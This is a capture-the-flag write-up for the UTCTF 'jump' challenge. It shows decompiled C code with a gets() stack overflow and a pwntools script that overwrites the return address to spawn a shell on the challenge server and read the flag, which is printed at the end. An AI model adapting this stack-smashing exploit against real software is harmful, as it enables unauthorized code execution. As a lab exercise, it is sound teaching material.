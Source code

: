 #### Challenge:

Jump, jump, jump, jump around [jump](./jump ":ignore") `nc pwn.utctf.live 5001`

---

#### Solution:

Opening in `ghydra` we get another stack overflow, this time we have to overwrite the return pointer:

```c++

void get_flag(void)

{
  char *local_18;
  undefined8 local_10;

  local_18 = "/bin/sh";
  local_10 = 0;
  execve("/bin/sh",&local_18,(char **)0x0);
  return;
}

undefined8 main(void)

{
  char local_78 [112];

  printf("You know the drill");
  gets(local_78);
  return 0;
}
```

```python
#!/usr/bin/env python

from pwn import *
from struct import *

r = remote('pwn.utctf.live', 5001)
#r = process('./jump')

payload = b'A'*(112) + b'B'*8 + pack("<Q", 0x00000000004011ab)
r.sendline(payload)
r.sendline('cat flag.txt')

print(r.recvline().decode('utf-8').strip())
r.close()
```

---

<details><summary>FLAG:</summary>

```
utflag{we_do_be_overflowing_those_stacks13318}
```

</details>
<br/>
